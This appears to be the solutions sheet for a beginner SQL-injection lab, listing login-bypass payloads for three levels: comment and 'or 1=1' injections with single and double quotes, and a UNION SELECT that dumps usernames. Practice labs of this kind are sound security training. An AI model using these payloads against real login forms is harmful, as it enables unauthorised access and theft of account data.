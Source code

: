 # Solutions

**Level1**: Login as admin
- username: `admin'-- `, `admin'#`, `admin' or '1'='1`
- password: `whatever`

**Level2**: Login as admin (double quotes)
- username: `admin"--`, `admin"#`, `admin" or "1"="1`
- password: `whatever`

**Level3**: Login as admin (use UNION to control the returned result)
- username: `" UNION SELECT GROUP_CONCAT(username) FROM users -- ` 
- password: `whatever`
